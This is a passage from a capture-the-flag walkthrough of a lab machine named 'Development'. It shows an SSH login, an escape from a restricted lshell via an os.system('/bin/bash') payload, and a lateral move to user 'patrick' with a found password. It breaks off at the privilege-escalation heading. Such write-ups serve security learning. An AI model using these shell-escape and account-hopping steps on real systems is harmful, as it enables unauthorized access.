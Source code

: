 ## home

Connect as "intern" using SSH worked, but we are left with a limited shell:

~~~
$ ssh intern@172.16.222.170 
Congratulations! You tried harder!
Welcome to Development!
Type '?' or 'help' to get the list of allowed commands
intern:~$ ll
total 12
drwxrwxrwx 9 intern intern 4096 Jul 16  2018 access
-rw-r--r-- 1 intern intern   46 Dec 26  2018 local.txt
-rw-r--r-- 1 intern intern  299 Dec 26  2018 work.txt
intern:~$ cat local.txt
*** unknown syntax: cat
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
~~~

## Break the lshell

Evade the limited shell (lshell) using the following command:

~~~
intern:~$ echo os.system('/bin/bash')
~~~

# Lateral move (intern -> patrick)

Now, we can move laterally to patrick using the password found previously:

~~~
intern@development:~/access$ su patrick
Password: P@ssw0rd25
patrick@development:/home/intern/access$ id
uid=1001(patrick) gid=1005(patrick) groups=1005(patrick),108(lxd)
patrick@development:/home/intern/access$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
~~~

# Privilege escalation and root flag

## Privesc
